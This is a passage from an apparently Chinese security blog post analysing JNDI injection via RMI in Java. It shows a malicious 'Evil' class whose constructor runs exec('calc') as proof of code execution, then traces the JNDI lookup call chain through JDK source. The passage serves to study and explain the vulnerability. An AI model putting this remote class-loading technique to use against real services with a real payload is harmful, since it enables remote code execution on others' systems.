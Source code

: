 一般在loadclass里面的调用Class.forName的时候传入了true就会触发初始化，而构造方法则在newInstance的时候触发，具体是如何实现的可以看下文的代码部分

##### 恶意类

```java
package JNDI;
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

![image-20221216112115781](https://raw.githubusercontent.com/Em4non/image-hosting/master/image-20221216112115781.png)

可以看到在执行了Client代码后，弹出了计算器，并报错，为什么会报错也很好理解，这里传入的Evil这个类并不是JNDI里面想要的Factory类，从报错内容来看可以看出这里原本想要得到的类是一个继承了javax.naming.spi.ObjectFactory类的类。

接下来我们来看看JNDI客户端里面怎么触发的加载类:

整个的调用链如下：

![image-20221216112532424](https://raw.githubusercontent.com/Em4non/image-hosting/master/image-20221216112532424.png)

我们可以从上下文对象的lookup处开始跟进，这是调用了一个根据URL去初始化上下文对象（rmiURLContext）的一个lookup

```java
public Object lookup(String name) throws NamingException {
    //在这个地方返回了rmiURLContext
    return getURLOrDefaultInitCtx(name).lookup(name);//name=rmi://127.0.0.1:1099/feng
}
```

然后我们继续跟进lookup

```java
public Object lookup(String var1) throws NamingException {
    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);//通过var1，也就是传入的URL获取注册中心相关信息
    Context var3 = (Context)var2.getResolvedObj();

    Object var4;
    try {
        var4 = var3.lookup(var2.getRemainingName());//根据传入参数不同，调用不同的lookup方法
    } finally {
        var3.close();
    }
    return var4;
}
```

我们可以看到，它先通过var1这个传入的RMI的URL去获取了相关信息，然后在var3的地方根据传入参数类型的不同，使用不同的Context的lookup方法进行下一步

![image-20221216113254624](https://raw.githubusercontent.com/Em4non/image-hosting/master/image-20221216113254624.png)

继续跟进var3的lookup，这里调用的var3的lookup，而var3是RegistryContext，所以虽然我们通过JNDI的方式进行调用，但是最后还是会调用到RMI的流程中，所以这也就是JNDI能结合RMI使用的原因（**JNDI的每个服务对应一个Context协议，而RMI对应的协议就是RegistryContext**）
